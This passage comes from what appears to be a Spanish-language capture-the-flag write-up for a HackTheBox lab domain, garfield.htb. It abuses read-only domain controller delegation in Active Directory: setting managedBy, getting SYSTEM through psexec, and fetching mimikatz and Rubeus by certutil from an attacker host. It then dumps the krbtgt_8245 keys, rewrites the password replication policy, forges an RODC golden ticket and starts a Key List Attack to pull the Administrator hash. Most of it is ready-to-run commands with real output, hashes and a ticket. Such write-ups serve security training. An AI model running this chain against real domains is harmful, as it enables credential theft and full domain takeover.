En la siguiente sección veremos en detalle cómo funciona esta relación y cómo un usuario o grupo especificado en `managedBy` puede obtener privilegios de administrador local sobre el RODC.

### Administración local en RODC01

Continuemos desde donde lo dejamos. Para determinar realmente quién tiene la capacidad de ser administrador local del RODC hay que analizar cómo está configurado el objeto del RODC, especialmente el atributo [managedBy](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ada2/48299dda-f25f-4f03-ab9e-1131f6eca51b), así como los **permisos delegados** sobre dicho objeto. La administración delegada de un RODC se configura asociando un usuario o grupo a este atributo del objeto de equipo correspondiente; a diferencia del comportamiento habitual de `managedBy` en Active Directory, en los objetos RODC tiene una función especial: **el usuario o grupo especificado obtiene privilegios de administrador local sobre ese RODC**.

> El [artículo de Elad Shamir](https://specterops.io/blog/2023/01/25/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc/#how-are-rodcs-managed) resume esta relación así: ***Si comprometes una cuenta que aparece en el atributo managedBy** de un RODC, obtienes privilegios de administrador local en el RODC. Y **si comprometes una cuenta que tiene permisos delegados para modificar el atributo managedBy** de un RODC, puedes convertirte en administrador*. Para una lectura más profunda, [Sean Metcalf](https://adsecurity.org/?p=3592) también cubre este vector en detalle.
{: .prompt-tip }

Bueno, pues lo que haré primero es determinar si el atributo `managedBy` contiene algún usuario o grupo, para determinar si el principal existente tiene privilegios de administrador local en RODC. Y como tal buscar rutas para hacerme con el principal.

```powershell
bloodyad -H dc01 -d garfield.htb -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026' get object 'RODC01$' --attr managedBy

distinguishedName: CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb
```

No hay ninguna entrada por aquí, por lo que de la disyuntiva descrita la más prometedora es la segunda: **si `managedBy` está vacío, necesito identificar quién puede modificarlo**.

Entonces obtendré las ACEs que afectan a `RODC01`. El objetivo es identificar los principals con permisos delegados que puedan modificar `managedBy` y, por extensión, controlar quién queda asociado como administrador local del RODC.

### Verificando las ACEs de RODC01

```shell
impacket-dacledit 'garfield.htb/l.wilson_adm:Ul7R4M3g4S3cUr3P4ssw0rd!2026' -action read -target-dn "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb"

...SNIP...

[*]   ACE[4] info                
[*]     ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE
[*]     Access mask               : ReadProperty, WriteProperty (0x30)
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : Managed-By (0296c120-40da-11d1-a9c0-0000f80367c1)
[*]     Trustee (SID)             : RODC Administrators (S-1-5-21-2502726253-3859040611-225969357-2101)
[*]   ACE[5] info                
[*]     ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE
[*]     Access mask               : ReadProperty, WriteProperty (0x30)
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : ms-DS-Reveal-OnDemand-Group (303d9f4a-1dd6-4b38-8fc5-33afe8c988ad)
[*]     Trustee (SID)             : RODC Administrators (S-1-5-21-2502726253-3859040611-225969357-2101)
[*]   ACE[6] info                
[*]     ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE
[*]     Access mask               : ReadProperty, WriteProperty (0x30)
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : ms-DS-Never-Reveal-Group (15585999-fd49-4d66-b25d-eeb96aba8174)
[*]     Trustee (SID)             : RODC Administrators (S-1-5-21-2502726253-3859040611-225969357-2101)

...SNIP...
```

Como se observa, la pertenencia al grupo `RODC Administrators` permite leer y escribir en los atributos `managedBy`, `ms-DS-Reveal-OnDemand-Group` y `ms-DS-Never-Reveal-Group` de `RODC01`. La ACE de `Managed-By` es la pieza clave para la escalada: me da exactamente el `WriteProperty` que necesito para convertir `l.wilson_adm` en el principal asociado al RODC. Estos dos últimos atributos los discutiré un poco más adelante de esta sección.

Antes de obtener la shell, aprovecho mis privilegios `AddSelf` heredados del grupo `Tier 1` para añadirme al grupo `RODC Administrators`, que, como ya se mostró, **recibe permisos delegados sobre el objeto del RODC, suficientes para modificar algunos atributos administrativos**, entre ellos **`managedBy`**. Esto permitirá asociar posteriormente `l.wilson_adm` al RODC y obtener privilegios de administrador local sobre `RODC01`.

> Para una lectura más profunda sobre la administración de RODC [aquí](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-r2-and-2008/cc772478(v=ws.10)).
{: .prompt-info }

### l.wilson_adm en RODC Administrators

Con esto comprobado, continuaré añadiendo el usuario `l.wilson_adm` al grupo `RODC Administrators`.

```powershell
bloodyad -H dc01 -d garfield.htb -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026' add groupMember 'RODC Administrators' 'l.wilson_adm'

[+] l.wilson_adm added to RODC Administrators
```

Y puedo verificar que el usuario ha sido añadido.

```powershell
bloodyad -H dc01 -d garfield.htb -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026' get object 'RODC Administrators' --attr member

distinguishedName: CN=RODC Administrators,CN=Users,DC=garfield,DC=htb
member: CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb; CN=svc_ldap\0ADEL:8a5a6f97-0655-477e-978a-3c6e92ae793e,CN=Deleted Objects,DC=garfield,DC=htb
```

### Abusando de managedBy

Gracias a la pertenencia al grupo `RODC Administrators`, puedo modificar este atributo y añadir al usuario `l.wilson_adm`, convirtiéndolo así en administrador local de `RODC01` y, por tanto, obteniendo control total sobre este equipo.

```shell
bloodyad -H dc01 -d garfield.htb -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026' set object 'RODC01$' managedBy -v 'CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb'

[+] RODC01$'s managedBy has been updated
```

Puedo comprobar el atributo.

```shell
bloodyad -H dc01 -d garfield.htb -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026' get object 'RODC01$' --attr 'managedBy'

distinguishedName: CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb
managedBy: CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb
```

Ahora valido mediante SMB.

```shell
sudo proxychains -q nxc smb RODC01 -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026'

SMB         224.0.0.1       445    RODC01           [*] Windows 10 / Server 2019 Build 17763 x64 (name:RODC01) (domain:garfield.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         224.0.0.1       445    RODC01           [+] garfield.htb\l.wilson_adm:Ul7R4M3g4S3cUr3P4ssw0rd!2026 (Pwn3d!)
```

Con privilegios de Administrador local, puedo usar `psexec` para obtener privilegios máximos.

### NT AUTHORITY\SYSTEM en RODC01$

```shell
sudo proxychains -q impacket-psexec 'garfield.htb/l.wilson_adm:Ul7R4M3g4S3cUr3P4ssw0rd!2026'@rodc01

Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on rodc01.....
[*] Found writable share ADMIN$
[*] Uploading file nfLSfUSY.exe
[*] Opening SVCManager on rodc01.....
[*] Creating service uGae on rodc01.....
[*] Starting service uGae.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.8511]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> ipconfig
Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::7a33:8251:f697:4c2d%5
   IPv4 Address. . . . . . . . . . . : 192.168.100.2
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.100.1
```

Excelente, continuaré con el artículo de [Elad Shamir](https://specterops.io/blog/2023/01/25/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc/) que menciona una forma de escalar privilegios desde este punto hacia el compromiso total del dominio.

## PrivEsc

Continuando con el artículo, se menciona que si se tiene control administrativo sobre el RODC existe una forma de comprometer todo el dominio, siempre que el RODC permita **«revelar»** las credenciales de un *security principal* específicamente de *Tier Zero*, como por ejemplo el usuario `Administrator`.

Antes de entrar en el meollo del asunto, debo definir y detallar los atributos que mencioné anteriormente: `msDS-RevealOnDemandGroup` y `msDS-NeverRevealGroup`.

### Authentication en RODC

#### Password Replication Policy (PRP)

La autenticación de un RODC necesita acceso a las credenciales del principal para autenticarlos localmente. Para controlar qué credenciales puede recuperar, existe la Password Replication Policy (PRP).

> La [documentación de Microsoft](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-r2-and-2008/cc730883(v=ws.10)) la define así: La PRP determina si un controlador de dominio de solo lectura (RODC) debe tener permiso para almacenar en caché una contraseña. Una vez que el RODC recibe una solicitud de inicio de sesión de un usuario o equipo autenticado, consulta la política de replicación de contraseñas para determinar si la contraseña de la cuenta debe almacenarse en caché. De esta manera, la misma cuenta puede iniciar sesión posteriormente de forma más eficiente.
{: .prompt-info }

Esta se basa en dos atributos asociados al objeto de equipo del RODC.

- [msDS-RevealOnDemandGroup](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-revealondemandgroup): Esta lista contiene los usuarios y grupos cuyas credenciales el RODC está autorizado a [recuperar/cachear](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc753459(v=ws.10)#credential-caching). La lista puede contener cuentas individuales o grupos.
- [msDS-NeverRevealGroup](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-neverrevealgroup): Esta lista contiene los usuarios y grupos cuyas credenciales el RODC tiene prohibido recuperar. Una característica importante es que **la lista de denegación tiene prioridad sobre la de autorización**. Es decir, si una cuenta aparece en ambas listas, incluso mediante grupos anidados, el RODC no podrá recuperar sus credenciales.

> Más sobre la autenticación en un RODC: [How Do RODCs Authenticate Users? - SpecterOps](https://specterops.io/blog/2023/01/25/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc/#how-do-rodcs-authenticate-users), [Password Replication Policy - Microsoft](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-r2-and-2008/cc730883(v=ws.10)).
{: .prompt-info }

> Adicional, puedes obtener una visual de la autenticación de RODC en [Authentication with an RODC - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/builtins/rodc#authentication-with-an-rodc)
{: .prompt-tip }

#### krbtgt_8245 y Tickets

Después de autenticar a un usuario o equipo, el RODC necesita generar un TGT. Para ello, utiliza la clave asociada a su cuenta `krbtgt_8245`, en lugar de la clave de la cuenta `krbtgt` del dominio. De esta forma, el compromiso de las credenciales del RODC no implica directamente disponer de la clave utilizada para firmar los TGT del dominio completo y, por tanto, tampoco permite falsificar tickets para todo el dominio.

Esto tiene sentido si se considera que un RODC normalmente se despliega en entornos que requieren servicios de Active Directory en ubicaciones hostiles o con poca administración de TI local.

> El valor **`8245` no es arbitrario**: en este entorno identifica al RODC concreto y vuelve a aparecer más adelante como `/rodcNumber:8245` al forjar el ticket. Mantener esa correspondencia es importante para que el RODC Golden Ticket sea coherente con el RODC comprometido.
{: .prompt-info }

Cuando el RODC genera un TGT, este puede utilizarse para solicitar TGS tanto al propio RODC como a Domain Controllers escribibles. Cuando un DC escribible recibe un TGT generado por un RODC, comprueba que el principal para el que se generó el ticket:

- **esté** en `msDS-RevealOnDemandGroup`, y
- **NO esté** en `msDS-NeverRevealGroup`.

> [SpecterOps](https://specterops.io/blog/2023/01/25/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc/#how-do-rodcs-authenticate-users) menciona que: Si se cumplen los criterios anteriores, un TGT emitido por un RODC puede ser **"actualizado"** a un TGT completo, cifrado y firmado por la cuenta KRBTGT del dominio, mediante el envío de una TGS-REQ para el servicio "KRBTGT"
{: .prompt-tip }

Bien, sin perder el hilo, continuaré presentando los dos ataques para aprovechar esto.

### RODC Golden Ticket (limitaciones)

Con privilegios elevados se puede **dumpear los hashes del RODC**, sobre todo la clave AES256 de la cuenta destinada a cifrar y descifrar TGT, es decir, `krbtgt_8245`.

El artículo menciona que **por supuesto, se puede forjar un golden ticket, pero no es automáticamente un Golden Ticket del dominio**. Por lo que no se puede escalar privilegios directamente así, debido a estas dos limitaciones:

1. El principal debe pertenecer a la lista `msDS-RevealOnDemandGroup`, y no estar presente en `msDS-NeverRevealGroup`, mencionado anteriormente. Es decir, que la identidad del ticket esté permitida en la Password Replication Policy del RODC.
2. Cuando el golden ticket del RODC se presenta al controlador de dominio principal, **el DC escribible regenerará el PAC en el ticket resultante en lugar de copiar el que traía el TGT presentado**. Es decir, hablando en cristiano: en lugar de reutilizar los grupos y privilegios especificados en el TGT, el DC consulta Active Directory y crea un PAC nuevo con los permisos reales del usuario.

Veré los atributos

```shell
bloodyad -H dc01 -d garfield.htb -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026' get object 'RODC01$' --attr 'msDS-RevealOnDemandGroup'

distinguishedName: CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb
msDS-RevealOnDemandGroup: CN=Allowed RODC Password Replication Group,CN=Users,DC=garfield,DC=htb
```
```shell
bloodyad -H dc01 -d garfield.htb -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026' get object 'RODC01$' --attr 'msDS-NeverRevealGroup'

distinguishedName: CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb
msDS-NeverRevealGroup: CN=Denied RODC Password Replication Group,CN=Users,DC=garfield,DC=htb; CN=Account Operators,CN=Builtin,DC=garfield,DC=htb; CN=Server Operators,CN=Builtin,DC=garfield,DC=htb; CN=Backup Operators,CN=Builtin,DC=garfield,DC=htb; CN=Administrators,CN=Builtin,DC=garfield,DC=htb
```

Como se observa, el grupo `Administrators` (cuyo usuario por defecto es `Administrator`) está en la lista de denegados, lo que impide llevar a cabo este ataque directamente. Además, no debe olvidarse que, en el supuesto caso de que el usuario `Administrator` solo perteneciera a `msDS-RevealOnDemandGroup`, tampoco podría presentarse ese TGT como válido ante el DC, debido a la segunda limitación: el DC regenera el PAC. Por lo que, eventualmente, no puedo escalar privilegios directamente por aquí. Continuaré con lo que propone el artículo.

Esto cambia si el entorno está configurado de forma insegura y el RODC tiene acceso a principals de Tier Zero.

> Finalmente, se destaca que para que el **RODC Golden Ticket funcione correctamente es necesario incluir el key version number correcto en kvno.**
{: .prompt-tip }

### Key List Attack

**Key List Attack** es la técnica propuesta por [Leandro Cuozzo](https://x.com/0xdeaddood) que consiste en falsificar un golden ticket del RODC y luego usarlo para enviar un TGS-REQ a un DC para el servicio `krbtgt`. Este TGS-REQ contiene una "solicitud de lista de claves" (`KERB-KEY-LIST-REQ`).

Si la cuenta objetivo se encuentra en el atributo `msDS-RevealOnDemandGroup` del RODC y no en `msDS-NeverRevealGroup`, el TGS-REP contendrá una estructura `KERB-KEY-LIST-REP` con las credenciales del usuario (hashes NT).

Ahora teniendo todo el material necesario aprovecharé lo obtenido.

### To Domain Admin

#### Extrayendo la clave krbtgt_8245

Creo un directorio en `C:\Windows\Temp`, donde depositaré mimikatz y Rubeus.

```shell
python3 -m http.server 80
```

```powershell
certutil -f -urlcache -split http://<YOUR_IP>/mimikatz.exe .\mimi.exe

***  Online  ****
  000000  ...
  14ae00
CertUtil: -URLCache command completed successfully.
```

```powershell
certutil -f -urlcache -split http://<YOUR_IP>/Rubeus.exe .\rb.exe

***  Online  ****
  000000  ...
  07de00
CertUtil: -URLCache command completed successfully.
```

Dumpeo el hash krbtgt del RODC.

```powershell
.\mimi.exe "lsadump::lsa /inject /name:krbtgt_8245" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::lsa /inject /name:krbtgt_8245
Domain : GARFIELD / S-1-5-21-2502726253-3859040611-225969357

RID  : 00000643 (1603)
User : krbtgt_8245

 * Primary
    NTLM : 445aa4221e751da37a10241d962780e2
    LM   : 
  Hash NTLM: 445aa4221e751da37a10241d962780e2
    ntlm- 0: 445aa4221e751da37a10241d962780e2
    lm  - 0: 0ab3d34a182bb016fc4cfd26544a9f16

 * WDigest
    01  6d31d1f92ef6d85f5517944f98bf5753
    02  8c46bd5ddc680291e70800990dbc02e3
    03  9ffbc24f29b9bb3df3c32b76631ff874
    04  6d31d1f92ef6d85f5517944f98bf5753
    05  8c46bd5ddc680291e70800990dbc02e3
    06  8fc97c500bf9c7c4a0d34a497f9c5245
    07  6d31d1f92ef6d85f5517944f98bf5753
    08  c4bac61b7ecb407d358f836d2f4e19c6
    09  c4bac61b7ecb407d358f836d2f4e19c6
    10  d8938c80e1e0c80a2ec1d8b06f42cb31
    11  67f002aa49f4400fa970a53e294f4bee
    12  c4bac61b7ecb407d358f836d2f4e19c6
    13  56062e2db43bc0069deb86de87509ca6
    14  67f002aa49f4400fa970a53e294f4bee
    15  7250fcfc09d9cb93345c0c1393e19e52
    16  7250fcfc09d9cb93345c0c1393e19e52
    17  04b30cd8b5381d4b8458b0c996503a91
    18  b48bda9ef98982d5ee33766a74880e01
    19  bb365cf4f0bcdadf35b6a9b04c58257b
    20  85addbd6d603cca1b500f2da02b205d0
    21  b6186618611e202aae4141716e6603f5
    22  b6186618611e202aae4141716e6603f5
    23  f3f6c9408db132bf8e59413b7b40bb16
    24  0acf88cc5cb3b35888708ebefe658b6f
    25  0acf88cc5cb3b35888708ebefe658b6f
    26  08b8941632a5017e7178a3761dfaf7fb
    27  c1b2fd89d0dafb5f9e18147042bdc433
    28  712f0b6ed3b7eb7f6f135a1e298c4e09
    29  bf8d51270f7f657079bb9744446d70cb

 * Kerberos
    Default Salt : GARFIELD.HTBkrbtgt_8245
    Credentials
      des_cbc_md5       : d540fe6192b9ecfe

 * Kerberos-Newer-Keys
    Default Salt : GARFIELD.HTBkrbtgt_8245
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240
      aes128_hmac       (4096) : 124c0fd09f5fa4efca8d9f1da91369e5
      des_cbc_md5       (4096) : d540fe6192b9ecfe

 * NTLM-Strong-NTOWF
    Random Value : f4b51c2c0d006172304e31dbc6e0de6b

mimikatz(commandline) # exit
Bye!
```

Ahora debo considerar los atributos `msDS-RevealOnDemandGroup` y `msDS-NeverRevealGroup`, por lo que a continuación modifico la PRP.

#### Modificando la Password Replication Policy (PRP)

Gracias a la pertenencia al grupo `RODC Administrators`, puedo modificar la PRP en el RODC. La jugada es añadir al usuario `Administrator` al atributo `msDS-RevealOnDemandGroup` y eliminarlo de `msDS-NeverRevealGroup`, permitiéndome así recuperar su hash NT.

Primero verifico el contenido de los atributos importantes de RODC01 para la autenticación.

```shell
bloodyad -H dc01 -d garfield.htb -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026' get object 'RODC01$' --attr msDS-RevealOnDemandGroup,msDS-NeverRevealGroup

distinguishedName: CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb
msDS-NeverRevealGroup: CN=Denied RODC Password Replication Group,CN=Users,DC=garfield,DC=htb; CN=Account Operators,CN=Builtin,DC=garfield,DC=htb; CN=Server Operators,CN=Builtin,DC=garfield,DC=htb; CN=Backup Operators,CN=Builtin,DC=garfield,DC=htb; CN=Administrators,CN=Builtin,DC=garfield,DC=htb
msDS-RevealOnDemandGroup: CN=Allowed RODC Password Replication Group,CN=Users,DC=garfield,DC=htb
```

Luego añado al usuario `Administrator` al atributo `msDS-RevealOnDemandGroup`.

```shell
bloodyad -H dc01 -d garfield.htb -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026' set object 'RODC01$' msDS-RevealOnDemandGroup -v 'CN=Administrator,CN=Users,DC=garfield,DC=htb'

[+] RODC01$'s msDS-RevealOnDemandGroup has been updated
```

Elimino los valores del atributo `msDS-NeverRevealGroup`.

```shell
bloodyad -H dc01 -d garfield.htb -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026' set object 'RODC01$' msDS-NeverRevealGroup

[+] RODC01$'s msDS-NeverRevealGroup has been updated
```

Confirmo.

```shell
bloodyad -H dc01 -d garfield.htb -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026' get object 'RODC01$' --attr msDS-RevealOnDemandGroup,msDS-NeverRevealGroup

distinguishedName: CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb
msDS-RevealOnDemandGroup: CN=Administrator,CN=Users,DC=garfield,DC=htb
```

#### Forjando el Golden Ticket

Ahora forjo el ticket desde la sesión del RODC.

> Recomiendo usar Rubeus v2.2.1 en adelante; en mi caso usaré la última versión, debido a que [JoeDibley](https://github.com/GhostPack/Rubeus/pull/147) implementó, desde la versión 2.2.1, el código necesario para realizar el Key List Attack.
{: .prompt-tip }

No olvidar que, cuando el RODC genera un TGT, el ticket contiene información que permite identificar la versión de clave utilizada. Por tanto, al fabricar un RODC Golden Ticket es necesario que el ticket tenga coherencia con el número de versión de la cuenta `krbtgt_8245`.

```shell
.\rb.exe golden /rodcNumber:8245 /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 /user:Administrator /id:500 /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357 /flags:forwardable,renewable,enc_pa_rep /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : GARFIELD.HTB (GARFIELD)
[*] SID            : S-1-5-21-2502726253-3859040611-225969357
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : D6C93CBE006372ADB8403630F9E86594F52C8105A52F9B21FEF62E9C7A75E240
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : D6C93CBE006372ADB8403630F9E86594F52C8105A52F9B21FEF62E9C7A75E240
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt
[*] Target         : garfield.htb

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@garfield.htb'

[*] AuthTime       : 6/13/2026 7:36:00 PM
[*] StartTime      : 6/13/2026 7:36:00 PM
[*] EndTime        : 6/14/2026 5:36:00 AM
[*] RenewTill      : 6/20/2026 7:36:00 PM

[*] base64(ticket.kirbi):

      doIFkjCCBY6gAwIBBaEDAgEWooIEfzCCBHthggR3MIIEc6ADAgEFoQ4bDEdBUkZJRUxELkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMZ2FyZmllbGQuaHRio4IENzCCBDOgAwIBEqEGAgQgNQAAooIEIgSCBB5hiGB9i+ZYZ4gHJMRZIbnKuOoYlZ/ZGLBtChc8bj4Ed+9euC7TSrQ+MZ9aDBdx/Pkx3NwBs/mdW/ylXcgmVhHNWLcaN+XsUGMRp1fhep7ELFHF4d4pIDSwA6KsYvnlW4YrLHQ9IfzjRdHvywrzaAjUlTS6dZpqsaf39Rm9s4961y97QQYqfs1haBc1Cs3O7VsKgECyr10A2QdNHH2xMBQ25lfVbwIdmDObdn6ZqGNzKPwlx7XOIBfVB8AE6wcGgEiPdtqhXo1KgQD0mprhcDQFqTMjZZmHLDn1Q3/MtODOahBzZ4uqPch9Ky2Mrtq7R7TpcQFBXg7lb8wCeMNY4NehL/UBzJpocn4W+o89tPiLDNq/lCq4sz/NiE9R+BL16LbZAJ02NOKYBL2PKlLQrVmlsF1+Uhu2KeEDFfd5eiFBAv1FBErQG3oBKeHSBoxrHUwQaEQg3X83DiWxLLnxxhCmozwA2InPd05Z5DX0MqQKgEQ3ZDnBv1Ct4FRUmB1HTHcJezftGcTydk3NbI19lp8LkYU2nOiCE7uQuzHEEwzILDlV52PX3ZSF83Qr54kv7bjgyDFkEHhsjXL++EDUWRxOQ1K0E15Yf8Q1mlTxe4a0u/YSMYjDfXSLnvdAzw9RGUf8pbzHvZAVFrHG5IOraZ3/ed7e9HSQx7t8tkFIFtyYfA3Kw7nm9zykRFip8wFFya/rnyk0wuE53eRx+BVLVQ1sYcISuO/jfiLzIFG6c9HZXOdSpzKhDS+i3CoODnDkCudpjhC3i8Ggb5Fh8BM8GBBJ80umgZ6ivuEVzsWOngiE0v2FZz/mQ16yaXLNMOoR01dKYLPjcA+BGRAJkcBaDp3Qke6AwwECzEJY8c4EcNZSn/GhdaKqNsUdIvsJ3Zyvj2G2qsSLZuZtB6j/ioybSSgBUjx9osxj+TTjkFRbgfyytL97MeO9QihMwlkW81459XKmMkNngRha88LDs3XIAUVrkxhLjxapXUGVTMb5FzPFhsXx0DCBgwVWl+JfuEiMYVF0Hcv9KJKhHRdvISbweVTMQnEYKTmgpRm6C21tqBuqQlQGnM+Sklgt2MMTRfGUvia4OQyiPyZ8GMik7girWJxAi903F1GU8NM3vMEOL4uYpBnQO+KzDi6qhpzD3XCrDGMaTM8kCOyULVpEnyKBkHdyZCEY3Bfl3AqOpDoBjwCvMuaeb5Wx5wxqoxFLOUuWhs09+FVdlpRi/CF8dVxBRSxm3+Nsx4gGRDk0K2lDY1zBUxLDU9mWdgZQiy45XGF/M9x/r0ZdN3IFMIPIne+HScLRUVgOqtJ2IJyRwU8OsCnialf0B3DAVwVOqYiDaz9TRumhqKZXEUmHvU2E8SPUNwpOMy3Oo4ajYk/ybLZTPXMuBAlRSBdsXa/ekm6SXk+Wo4H+MIH7oAMCAQCigfMEgfB9ge0wgeqggecwgeQwgeGgKzApoAMCARKhIgQg+o94b7to7xxbCkbDHAmQv0fgPGN+Rdzf3viEgpqdYfuhDhsMR0FSRklFTEQuSFRCohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQIEAAKQRGA8yMDI2MDYxNDAyMzYwMFqlERgPMjAyNjA2MTQwMjM2MDBaphEYDzIwMjYwNjE0MTIzNjAwWqcRGA8yMDI2MDYyMTAyMzYwMFqoDhsMR0FSRklFTEQuSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxnYXJmaWVsZC5odGI=
```

Ahora, con este TGT en mi poder, lo usaré para solicitar un TGS a la cuenta de servicio krbtgt del Domain Controller principal (DC01).

#### Ejecutando el Key List Attack

```shell
.\rb.exe asktgs /enctype:aes256 /keyList /service:krbtgt/garfield.htb /dc:dc01.garfield.htb /ticket:doIFkjCCBY6gAwIBBaEDAgEWooIEfzCCBHthggR3MIIEc6ADAgEFoQ4bDEdBUkZJRUxELkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMZ2FyZmllbGQuaHRio4IENzCCBDOgAwIBEqEGAgQgNQAAooIEIgSCBB5hiGB9i+ZYZ4gHJMRZIbnKuOoYlZ/ZGLBtChc8bj4Ed+9euC7TSrQ+MZ9aDBdx/Pkx3NwBs/mdW/ylXcgmVhHNWLcaN+XsUGMRp1fhep7ELFHF4d4pIDSwA6KsYvnlW4YrLHQ9IfzjRdHvywrzaAjUlTS6dZpqsaf39Rm9s4961y97QQYqfs1haBc1Cs3O7VsKgECyr10A2QdNHH2xMBQ25lfVbwIdmDObdn6ZqGNzKPwlx7XOIBfVB8AE6wcGgEiPdtqhXo1KgQD0mprhcDQFqTMjZZmHLDn1Q3/MtODOahBzZ4uqPch9Ky2Mrtq7R7TpcQFBXg7lb8wCeMNY4NehL/UBzJpocn4W+o89tPiLDNq/lCq4sz/NiE9R+BL16LbZAJ02NOKYBL2PKlLQrVmlsF1+Uhu2KeEDFfd5eiFBAv1FBErQG3oBKeHSBoxrHUwQaEQg3X83DiWxLLnxxhCmozwA2InPd05Z5DX0MqQKgEQ3ZDnBv1Ct4FRUmB1HTHcJezftGcTydk3NbI19lp8LkYU2nOiCE7uQuzHEEwzILDlV52PX3ZSF83Qr54kv7bjgyDFkEHhsjXL++EDUWRxOQ1K0E15Yf8Q1mlTxe4a0u/YSMYjDfXSLnvdAzw9RGUf8pbzHvZAVFrHG5IOraZ3/ed7e9HSQx7t8tkFIFtyYfA3Kw7nm9zykRFip8wFFya/rnyk0wuE53eRx+BVLVQ1sYcISuO/jfiLzIFG6c9HZXOdSpzKhDS+i3CoODnDkCudpjhC3i8Ggb5Fh8BM8GBBJ80umgZ6ivuEVzsWOngiE0v2FZz/mQ16yaXLNMOoR01dKYLPjcA+BGRAJkcBaDp3Qke6AwwECzEJY8c4EcNZSn/GhdaKqNsUdIvsJ3Zyvj2G2qsSLZuZtB6j/ioybSSgBUjx9osxj+TTjkFRbgfyytL97MeO9QihMwlkW81459XKmMkNngRha88LDs3XIAUVrkxhLjxapXUGVTMb5FzPFhsXx0DCBgwVWl+JfuEiMYVF0Hcv9KJKhHRdvISbweVTMQnEYKTmgpRm6C21tqBuqQlQGnM+Sklgt2MMTRfGUvia4OQyiPyZ8GMik7girWJxAi903F1GU8NM3vMEOL4uYpBnQO+KzDi6qhpzD3XCrDGMaTM8kCOyULVpEnyKBkHdyZCEY3Bfl3AqOpDoBj